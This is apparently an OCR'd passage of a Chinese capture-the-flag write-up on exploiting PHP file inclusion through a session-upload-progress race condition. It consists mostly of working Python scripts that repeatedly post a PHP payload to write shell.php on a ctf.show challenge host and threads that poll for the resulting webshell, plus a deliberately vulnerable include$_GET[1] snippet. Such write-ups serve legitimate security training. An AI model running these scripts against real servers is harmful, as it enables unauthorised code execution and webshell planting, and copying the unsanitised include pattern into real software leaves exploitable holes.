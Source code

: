 ```python
    while True:
        response = requests.post(url, data=data, files=file, cookies=cookies)
        time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 检查文件是否已创建
def check_file():
    while True:
        r = requests.get(url + 'shell.php')
        if r.status_code == 200:
            print('Webshell created successfully')
            print(r.text)
            break
        else:
            print('error：', r.status_code)
        # time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 创建并启动线程
threads = []
for _ in range(5):  # 创建5个上传线程
    t = threading.Thread(target=upload_file)
    t.start()
    threads.append(t)

for _ in range(5):  # 创建5个检查线程
    t = threading.Thread(target=check_file)
    t.start()
    threads.append(t)

# 等待所有线程完成
for t in threads:
    t.join()
```


### get表单类型

对post类型稍加修改

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include$_GET[1];
```

条件竞争脚本

```python

import io
import requests
import threading
# 如果题目链接是https，换成http
# url = 'https://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
url = 'http://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
sessionid = 'ctfshow'

def write(session): # 写入临时文件
    while True:
        fileBytes = io.BytesIO(b'a'*1024*50) # 50kb
        session.post(url,
        cookies = {'PHPSESSID':sessionid},
        data = {'PHP_SESSION_UPLOAD_PROGRESS':"<?php file_put_contents('/var/www/html/shell.php','<?php phpinfo();?>');?>"},
        files={'file':('1.jpg',fileBytes)}
        )
```